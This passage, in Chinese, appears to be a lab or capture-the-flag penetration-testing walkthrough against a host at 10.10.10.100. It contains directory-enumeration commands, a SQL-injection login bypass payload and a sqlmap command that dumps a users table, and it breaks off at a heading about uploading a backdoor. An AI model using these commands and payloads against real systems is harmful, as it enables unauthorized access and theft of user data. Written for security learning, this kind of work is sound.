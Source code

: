 ```bash
dirsearch -u "http://10.10.10.100" -o dirsearch_info
gobuster dir -u http://10.10.10.100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
dirb http://10.10.10.100 -o dirb_info

whatweb "http://10.10.10.100/blog/"
```

> /blog 内容管理系统、博客，  
> /info 显示了了 phpinfo() 内容，  
> /includes 文件列表，/images 文件列表  
> /blog 博客页由 Simple PHP 搭建。MetaGenerator\[Simple PHP Blog 0.4.0\], PHP\[5.3.5-1ubuntu7\]

### PORT 80

[http://10.10.10.100](http://10.10.10.100/) “欢迎来到内网”（登录、注册）  
[http://10.10.10.100/blog](http://10.10.10.100/blog) 内容管理系统（登录、搜索、内容提交）

<1>注册后登录会一直显示 "Logging in...."，不排除可能有 waf 这种机制存在，很可能某些操作会被判定为恶意行为然后被 block 掉

<2>经过测试，发现首页的登录功能，用户名单引号会报错，使用万能密码 admin' or '1'#可以登录，该页面存在 sql 注入。直接使用 sqlmap

[![](assets/1703831504-01d0132c287b5a64c991976030016dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163834-525673fc-a493-1.png)

### sqlmap 后门上传

<1>注入点测试 拿数据

```bash
//POST 注入
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --batch -D ch16 -T users --dump
```

[![](assets/1703831504-29c3396788c52601eb738f6b32d09742.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163842-5761ff9c-a493-1.png)
